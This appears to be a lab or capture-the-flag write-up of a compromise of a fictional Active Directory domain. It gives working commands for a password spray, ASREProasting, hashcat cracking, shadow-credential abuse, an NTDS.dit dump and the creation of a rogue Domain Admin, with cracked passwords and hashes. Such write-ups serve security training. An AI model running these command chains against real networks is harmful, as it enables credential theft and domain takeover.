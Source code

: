 # Writeup:

Navigating the fileserver web page at `http://10.0.3.12`, we discovered multiple domain users.

```
info@plumetech.local
Chief Executive Officer vicky@plumetech.local  
Chief Technical Officer ramon@plumetech.local  
Head of Security Operations lorenzo@plumetech.local 
Director of Operations beth@plumetech.local
```

From there, we issued a password spray that led to the discovery of lorenzo's password.

```
PLUMETECH.LOCAL\lorenzo:q1w2e3r4t5
```

From there, ASREProasting was performed to obtain a crackable hash of the user ramon, who has generic all on the IT DC1.

```
nxc ldap 10.0.3.11 -u lorenzo -p q1w2e3r4t5 --asreproast output.txt
```

Once the hash was obtained, it was then cracked using hashcat.

```
$krb5asrep$23$ramon:7noentras7
```

With the password obtained, we were able to abuse the privileges owned by ramon to create a shadow credential on the DC1$ user object to then use it to impersonate any domain user on the DC.

```
└─$ python3 PKINITtools/gettgtpkinit.py -cert-pfx dc1_shadow.pfx -pfx-pass password 'PLUMETECH.LOCAL/dc1$' dc1_shadow.ccache
```

From there, obtain the NT Hash of the DC1$ object.

```
python3 PKINITtools/getnthash.py -key 8a0e1c591daaf16f778345af7a182dbd1c1abd937cdc7211ab07c3b65610a5fc 'PLUMETECH.LOCAL/dc1$'
```

```
[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash      
5b785f74eac4446875c4fb3832a1e650
```

NTDS.dit dump through s4u2self.

```
nxc smb 10.0.3.11 -d 'PLUMETECH.LOCAL' -u 'DC1$' -H bed9fe4af293d3ce446c731dd2744abb --delegate "Administrator" --self --ntds --users marty
```

The last thing needed was to add the user to domain admins.

```
nxc smb 10.0.3.11 -d 'PLUMETECH.LOCAL' -u 'marty' -H 3824065b9bcdc9fc9b6f98c5fa7d7fdc -x 'net user /add plumber password /domain && net group "Domain Admins" plumber /add /domain
```